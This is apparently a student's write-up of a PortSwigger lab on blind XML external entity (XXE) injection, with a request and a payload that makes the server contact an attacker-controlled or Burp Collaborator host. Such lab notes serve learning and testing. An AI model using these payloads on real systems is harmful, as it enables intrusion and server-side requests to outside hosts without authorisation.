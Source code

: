 # Blind XXE with out-of-band interaction

[Lab in PortSwigger](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)

## Definition
You can often detect blind XXE using the same technique as for XXE SSRF attacks but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful. 

## Notes
This lab has a `Check stock` feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 

**Remote Host**  
- [Portsweeger lab with an exploit server](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass)
- [Remote URL](https://exploit-0a35000204f00ae7c0716b4e017f00d0.web-security-academy.net/exploit)
- [Fake burpcollaborator URL](https://abc1234def.burpcollaborator.net)

**Original Request**
```http
POST /product/stock HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:100.0)
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
...

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```

**Malicious Payload**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE vuln [<!ENTITY pwn SYSTEM "https://abc1234def.burpcollaborator.net">]>
<stockCheck><productId>&pwn;</productId><storeId>1</storeId></stockCheck>
```

## Key Words
> xml, xxe, remote host, blind, exploit server